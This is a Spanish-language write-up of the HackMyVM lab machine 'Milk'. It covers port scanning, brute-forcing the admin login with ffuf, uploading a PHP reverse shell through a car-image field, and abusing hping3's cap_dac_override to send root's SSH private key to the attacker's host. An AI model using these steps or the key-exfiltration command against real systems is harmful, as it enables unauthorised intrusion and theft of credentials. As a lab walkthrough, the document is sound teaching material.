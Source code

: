 ```yaml
---
layout: post
title: Milk - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/milk/milk.png#center)

## Reconocimiento

Comienzo con una enumeración de puertos usando nmap.

```
$ sudo nmap -p- 192.168.1.177      
[sudo] contraseña para user: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 22:03 UTC
Nmap scan report for 192.168.1.177
Host is up (0.000083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:BA:69:3A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds
```

### 80 (http)

Continuo con la enumeración utilizando nikto sobre la página web en el puerto 80 y encuentro un login de administrador.

```
nikto --host http://192.168.1.177
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.177
+ Target Hostname:    192.168.1.177
+ Target Port:        80
+ Start Time:         2023-01-01 22:04:29 (GMT0)
---------------------------------------------------------------------------
[...]
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

Realizo un ataque de fuerza bruta usando ffuf con el usuario admin y consigo su contraseña.

```
$ cat req.txt
POST /admin/index.php HTTP/1.1
Host: 192.168.1.177
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://192.168.1.177
Connection: close
Referer: http://192.168.1.177/admin/index.php
Cookie: PHPSESSID=ooukt4rsu900cuojv7uf3avl4n
Upgrade-Insecure-Requests: 1

username=admin&password=FUZZ&login=
```

```
$ ffuf -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -request req.txt -debug-log test -u "http://192.168.1.177/admin/index.php" -fs 854     
[...]
admin                   [Status: 200, Size: 873, Words: 3, Lines: 5, Duration: 29ms]
```

## Explotación

Una vez logeado, para conseguir una reverse shell hay que realizar lo siguiente:

- Añadir una marca de coche nueva.
- Añadir un coche nuevo con datos arbitrarios.
- En las imágenes del coche, subir una reverse shell en php.

![img](/imgs/write-ups/hackmyvm/milk/milk_1.png#center)

Una vez guardado el coche nuevo, navego a la página principal y obtengo la conexión.

```
$ nc -lvnp 1234                    
Connection from 192.168.1.177:39182
whoami
www-data
```

## Escalado de privilegios

Una vez dentro del servidor, ejecuto linpeas.sh para enumerar posibles métodos de escalado de privilegios y encuentro que hping3 tiene la capabilitie "cap_dac_override" la cual nos permite leer archivos en todo el sistema.

```
/usr/sbin/hping3 = cap_dac_override,cap_net_raw+ep 
```

Utilizo hping3 para leer la clave privada del usuario root y enviarla a mi máquina.

```
hping3 -c 1 --file /root/.ssh/id_rsa 192.168.1.79 -d 5000
HPING 192.168.1.79 (enp0s3 192.168.1.79): NO FLAGS are set, 40 headers + 5000 data bytes
len=46 ip=192.168.1.79 ttl=64 DF id=0 sport=0 flags=RA seq=0 win=0 rtt=8.6 ms
```

Con Wireshark escuchando, obtengo el paquete con la clave privada.

![img](/imgs/write-ups/hackmyvm/milk/milk_2.png#center)

Ahora solo queda guardarla y conectarse mediante ssh.

```
ssh root@192.168.1.177 -i id_rsa
[...]
Last login: Fri Feb 19 07:47:41 2021
root@milk:~#  :)
```

Muchas gracias a **Sml** por esta máquina.
